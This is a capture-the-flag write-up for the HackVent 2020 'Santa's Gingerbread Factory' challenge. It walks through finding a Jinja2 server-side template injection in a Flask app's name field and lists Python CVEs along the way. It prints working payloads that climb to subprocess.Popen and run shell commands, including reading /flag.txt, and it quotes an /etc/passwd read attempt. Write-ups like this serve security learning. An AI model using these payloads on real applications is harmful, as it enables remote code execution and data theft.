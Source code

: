 # HV20.09 Santa's Gingerbread Factory

## Description

- Introduction: Here you can customize your absolutely fat-free gingerbread man.  
  Note: Start your personal instance from the RESOURCES section on top.
- Goal / Mission:  Besides the gingerbread men, there are other goodies there. Let's see if you can get the goodie, which is stored in `/flag.txt`.

## Analysis

Todays medium level challenge is classified as "Penetration Testing", "Web Security". We can start our personal instance as part of the challenge:
`https://8ea11899-6ff8-4b13-bc23-5e011061048c.idocker.vuln.land`.

To get an idea of the site, check out [index.html](site/index.html) (**be aware**: the copied form is not functional here!). It is basically a site showing a gingerbread man where we can customize the eyes/head and provide a name for the text bubble.

From looking at the responses header the server is identifying as `Werkzeug/1.0.1 Python/2.7.16`. So we will google for "Python 2.7.16 vulnerabilities":

- CVE-2019-9948 (6.4/10): "Bypass"

      urllib in Python 2.x through 2.7.16 supports the local_file: scheme, which makes it easier for remote attackers to bypass protection mechanisms that blacklist file: URIs, as demonstrated by triggering a urllib.urlopen('local_file:///etc/passwd') call. 

- CVE-2019-9636 (5.0/10):

      Python 2.7.x through 2.7.16 and 3.x through 3.7.2 is affected by: **Improper Handling of Unicode Encoding** (with an incorrect netloc) during NFKC normalization. The impact is: Information disclosure (credentials, cookies, etc. that are cached against a given hostname). The components are: **urllib.parse.urlsplit, urllib.parse.urlparse**. The attack vector is: A specially crafted URL could be incorrectly parsed to locate cookies or authentication data and send that information to a different host than when parsed correctly. 

- CVE-2018-20852 (5.0/10):

      http.cookiejar.DefaultPolicy.domain_return_ok in Lib/http/cookiejar.py in Python before 3.7.3 does not correctly validate the domain: it can be tricked into sending existing cookies to the wrong server. An attacker may abuse this flaw by using a server with a hostname that has another valid hostname as a suffix (e.g., pythonicexample.com to steal cookies for example.com). When a program uses http.cookiejar.DefaultPolicy and tries to do an HTTP connection to an attacker-controlled server, existing cookies can be leaked to the attacker. This affects 2.x through 2.7.16, 3.x before 3.4.10, 3.5.x before 3.5.7, 3.6.x before 3.6.9, and 3.7.x before 3.7.3.

- CVE-2019-9947 (4.3/10):

      An issue was discovered in urllib2 in Python 2.x through 2.7.16 and urllib in Python 3.x through 3.7.3. **CRLF injection is possible if the attacker controls a url parameter**, as demonstrated by the first argument to urllib.request.urlopen with \r\n (specifically in the path component of a URL that lacks a ? character) followed by an HTTP header or a Redis command. This is similar to the CVE-2019-9740 query string issue. 

- CVE-2019-9740 (4.3/10):

      An issue was discovered in urllib2 in Python 2.x through 2.7.16 and urllib in Python 3.x through 3.7.3. CRLF injection is possible if the attacker controls a url parameter, as demonstrated by the first argument to urllib.request.urlopen with \r\n (specifically in the query string after a ? character) followed by an HTTP header or a Redis command. 


The `CVE-2019-9948` "Bypass" vulnerability would be good to access the URL `/flag.txt`. The question is whether we do have somewhere an URL which can be influenced by our request.

After playing around with the parameters in Postman, I had to hit the HackVent Discord channel to get a hint. "Werkzeug 1.0.1" really seems to be a tool 😉. Sadly, "Werkzeug 1.0.1" does not have known vulnerabilities. So have to look into how web sites using this tool are use implemented and used, so we can possibly exploit a vulnerability of Python below it.

After reading through the Werkzeug tutorial. I saw potential to exploit the open Python vulnerabilities (e.g. urlparse.urlparse and redis was used in the example). The problem is now: How much is the "Gingerbread man" influenced by this simple tutorial. So far I found only the "/" URL working with the parameters in the body (=only POST not GET parameters).

According to another hint from Seb on Discord, I should look into the environment where "Werkzeug" is used. According to the documentation, this is in "Flask". Looking for "flask vulnerabilities" I found a description [here](https://medium.com/bugbountywriteup/angstromctf-2018-web-writeups-part-2-6c1ee586aa64) where it is explained that if flask is running it may execute code in double curly-braces, e.g. "{{7*7}}". I tested this on our gingerbread man "name" parameter and it was executed! 🥳🍾

Further, if "{{7*'7'}}" results in "7777777", Twig or Jinja2 is in use. By providing some invalid input (like a ` character), we get an error message screen from Jinja2.

So we will now try to exploit this environment!

### Try 1

**Input:**

    name = {{urllib.urlopen('local_file:///etc/passwd')}}

**Error:**
    
    jinja2.exceptions.UndefinedError

    UndefinedError: 'urllib' is undefined


The error message leaked parts of `/opt/app/app.py`:

```python
@app.route('/', methods=["POST", "GET"])
def main(eyes="*", name="Hacker"):
  eyes = request.form.get('eyes', "*")
  name = request.form.get('name', "Hacker")
 
  text = Environment(loader=BaseLoader()).from_string("Hello, mighty " + name).render()
  print("Text: " + text)
  t = wrap(text, width=30)
  l = 0;
  for line in t:
    if len(line) > l:
```

(The [full source code](app.py) has been recovered after successfully solving the challenge.)


### Try 2

Trying to know what is "available":

**Input:**

    name = {{self.__dict__}}

**Output:**

    {
        '_TemplateReference__context': <Context 
            {
                'range': <type 'xrange'>,
                'dict': <type 'dict'>,
                'cycler': <class 'jinja2.utils.Cycler'>,
                'joiner': <class 'jinja2.utils.Joiner'>,
                'namespace': <class 'jinja2.utils.Namespace'>,
                'lipsum': <function generate_lorem_ipsum at 0x7f56b3127050>
            } 
        of None>
    }

Executing the lipsum function:

    {{self._TemplateReference__context.lipsum()}}


Nothing special: Lorep Ipsum... a template filling text.

### Further research

I found the article [SSTI in Flask/Jinja2](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee).

So I try: `{{ ''.__class__.__mro__ }}` to find the `object` class. And `{{ ''.__class__.__mro__[2].__subclasses__() }}` to find all its subclasses and look for `subprocess.Popen`.

**Input:**

    {{ ''.__class__.__mro__[2].__subclasses__() }}

**Output:**

  An array of 311 objects (see [`python_mro.txt`](python_mro.txt)). 
  As we care about `subprocess.Popen` we find index 258 as the relevant to continue our exploit development.

---

Now we have access to execute shell commands.

**Input:**

    {{ ''.__class__.__mro__[2].__subclasses__()[258]('ls /',shell=True).stdout}}

**Output:**

It seems to be running, but no output is generated... The `stdout` object is "None". This might be because the process is running in parallel and it has not yet been initialized (_this is a wrong assumption_).

So I try the `wait()` command to ensure that the child process is being waited on. 

**Input:** for `ls /flag.txt`

    {{ ''.__class__.__mro__[2].__subclasses__()[258]('ls /flag.txt',shell=True).wait()}}

But doing this, we only get the return code of the child process. We can verify that the file exists at `/flag.txt`: return value is 0. If the file would not exist, the value would be 2.

But the problem of using `wait()` is: The output is lost, as we cannot access the `Popen` object anymore. (If we had Python statements and not Python expressions available, this wouldn't be a problem.)

---

Checking the Python documentation for `Popen` indicates that we should set the parameter `stdout` to `PIPE` to be able to read the output. Sadly, the `PIPE` value is not accepted. After checking the [Pyton implementation](https://github.com/python/cpython/blob/master/Lib/subprocess.py) of `subprocess`, I saw that I can pass in `-1` to get the output piped.

## Solution

With this knowledge we can now read the flag using `cat /flag.txt`:

    {{ ''.__class__.__mro__[2].__subclasses__()[258]('cat /flag.txt', stdout=-1, shell=True).stdout.read()}}

we get the flag shown in the output:

    HV20{SST1_N0t_0NLY_H1Ts_UB3R!!!}
